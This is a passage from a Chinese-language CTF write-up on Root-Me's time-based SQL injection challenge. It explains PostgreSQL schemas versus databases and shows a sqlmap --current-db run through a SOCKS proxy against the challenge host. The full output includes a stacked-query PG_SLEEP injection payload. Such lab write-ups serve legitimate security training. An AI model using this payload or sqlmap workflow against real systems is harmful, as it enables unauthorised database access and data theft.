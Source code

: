不难注意到，我们在前面查询到 `CURRENT_DATABASE()` 的值是 `c_webserveur_40` 。

而这里通过 sqlmap 的 `--dbs` 获得的三个库名没有一个是 `c_webserveur_40` 。

这是因为在 pgsql 中，数据库的分层结构是 database/schema/table 。

而 `CURRENT_DATABASE()` 得到的是 database 名称，sqlmap 得到的是三个 schema 名称（schema 即数据库模式）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B52%5D%20%5B45P%5D%20SQL%20injection%20-%20Time%20based/imgs/07.png)

------------

### 获得当前的数据库模式

一般情况下，用户表都是存储在数据库模式 `public` 中的。

要验证的话，可以通过 sqlmap 的 `--current-db` 参数获得当前的数据库模式：


```shell
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080 --time-sec=5 --current-db
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.3.3.23#dev}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:57:13 /2019-03-17/

[09:57:13] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[09:57:13] [INFO] resuming back-end DBMS 'postgresql'
[09:57:13] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[09:57:14] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[09:57:14] [INFO] fetching current database
[09:57:14] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[09:57:39] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
public
[09:58:49] [WARNING] on PostgreSQL you'll need to use schema names for enumeration as the counterpart to database names on other DBMSes
current schema (equivalent to database on PostgreSQL): 'public'
[09:58:49] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 09:58:49 /2019-03-17/
```
